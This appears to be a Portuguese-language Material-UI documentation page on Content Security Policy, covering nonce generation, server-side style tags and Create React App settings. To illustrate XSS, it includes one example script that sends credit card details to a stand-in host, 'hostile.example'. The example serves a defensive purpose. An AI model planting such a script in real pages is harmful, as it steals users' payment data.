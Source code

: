 # Política de segurança de conteúdo (CSP)

<p class="description">Esta seção abrange os detalhes da criação de um CSP.</p>

## O que é CSP e por que é útil?

CSP reduz os ataques de cross-site scripting (XSS) exigindo que os desenvolvedores incluam na whitelist as fontes de onde seus assets são recuperados. Esta lista é retornada como um cabeçalho do servidor. Por exemplo, digamos que você tenha um site hospedado em `https://example.com` o cabeçalho CSP `default-src: 'self';` permitirá todos os assets localizados em `https://example.com/*` e negar todos os outros. Se houver uma seção do seu site que é vulnerável ao XSS, onde a entrada do usuário de unescaped é exibida, um invasor pode inserir algo como:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

Esta vulnerabilidade permitiria que o invasor executasse qualquer coisa. No entanto, com um cabeçalho CSP seguro, o navegador não carregará esse script.

Você pode ler mais sobre o CSP no [MDN Web Docs](https://developer.mozilla.org/pt-BR/docs/Web/HTTP/CSP).

## Como se implementa o CSP?

### Renderização do lado do Servidor (SSR)

Para usar o CSP com Material-UI (e JSS), você precisa usar um nonce. Um nonce é uma string gerada aleatoriamente que é usada apenas uma vez, portanto, você precisa adicionar um middleware de servidor para gerar um em cada solicitação.

Um nonce CSP é uma string codificada na Base 64. Você pode gerar um assim:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

Você deve usar o UUID versão 4, pois ele gera uma string **imprevisível**. Em seguida, você aplica esse nonce ao cabeçalho do CSP. Um cabeçalho CSP pode ser assim com o nonce aplicado:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src: 'self' 'nonce-${nonce}';`,
);
```

Você deve passar o nonce na tag `<style>` no servidor.

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{
    __html: sheets.toString(),
  }}
/>
```

Então, você deve passar este nonce para o JSS para que ele possa adicioná-lo às tags `<style>` subsequentes.

> Note, if you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from emotion and add the `prepend: true` option.

```js
<head>
  <meta property="csp-nonce" content="this-is-a-nonce-123" />
</head>
```

### Create React App (CRA)

De acordo com [a documentação de Create React App](https://create-react-app.dev/docs/advanced-configuration/), uma aplicação de Create React App incorporará dinamicamente o script de tempo de execução em index.html durante a compilação de produção por padrão. Isto exigirá que um novo hash seja definido em seu CSP durante cada implantação.

Para usar um CSP com um projeto inicializado como um Create React App, você precisará definir a variável `INLINE_RUNTIME_CHUNK=false` no arquivo `.env` usado para sua compilação de produção. Isto irá importar o script de execução como de costume em vez de incorporá-lo, evitando a necessidade de definir um novo hash durante cada implantação.

### global-css

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
